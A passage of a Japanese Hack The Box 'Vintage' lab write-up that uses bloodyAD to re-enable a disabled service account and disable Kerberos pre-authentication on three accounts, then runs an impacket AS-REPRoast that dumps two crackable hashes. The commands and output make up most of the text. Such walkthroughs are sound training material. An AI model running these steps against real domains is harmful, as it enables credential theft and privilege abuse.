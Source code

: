 先ほどのBloodHoundでもあったようにsvc_sqlは `ACCOUNTDISABLE` が割り当てられていることからユーザーが無効化されているので有効かさせる必要があります。

userAccountControlの設定はPowerViewを使って設定することができますが、powerview.pyではなぜかうまくいかなかったので、bloodyADを使って行います。

svc_sqlを有効化します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k remove uac svc_sql -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl
```

TGTを使ってuserAccountControlに`DONT_REQ_PREAUTH`を割り当てます。これをsvc_ark,svc_ldapに対しても行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k add uac svc_sql -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_sql's userAccountControl
                                              
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k add uac svc_ark -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_ark's userAccountControl

┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k add uac svc_ldap -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_ldap's userAccountControl
```

impacket-GetNPUsersでAS-REPRoast攻撃を実行します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-GetNPUsers -k -no-pass -usersfile users.txt -format hashcat -outputfile hashes.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:8dc9470b6aa730717fbf3a7c32ee0efb$9991d8e02e16dcb83133c1ff9f4451e25c923c99832005cd967de2a4bb74f253c83eebe6aa88d86c9a92f3e7c27570eb0df2ecf91a6d6038f2e446f89b49686cf743e026417c683ccc3ad2492616ffa65bb516e7785057ae0867adbe7c01d8069a2c54d2790a461d38cff9d91ccd1289772489e8546e9b3b9a36697b835e935466c6950225a5a5bc80d931ac00a989b4898cb5662dbbb8bb1774fea5104c63a7181057d40a3b4711b3fae73401c2ad2c376b9e3debcdd4b32395ab13699990cd8543bbcd922270ffc0ee74e8ebcc419ac3629d7fe32ec8b62280521078d6e9641e24e66d2f7194d4cc9c
$krb5asrep$23$svc_ldap@VINTAGE.HTB:fa269ad82c12f7397411678b881f14b3$c3a9f2dc4bd5bf7609a14b5790daf5c09e46f25cb8d8b65a069c1af4ac2be6de1f383d446a5cd5c99927a209ac0ffbbd147599ad42cd632439c816344e18032ebe46b22a8a55051013f1ccb42da08fb10bb2d0a1ebbe8b7314ba92dc25f12620adecf15509805180679dc32ed6d62db9a0c9e99c1992f25fbd8b25cf67115f6ae034d2f4493b3662583df9904577714f3f9f52ee150bd1b4d00a25ef1697c755373346099fc4b06d7299c36da7c1eae7e4da4fdc438bec65ef022a0371ab783a2d73b217b9278b3b5c64b71aeafce06ce53c1b8e369670ffe5fcd7b54075e07627db2a67d6ce505a9003
```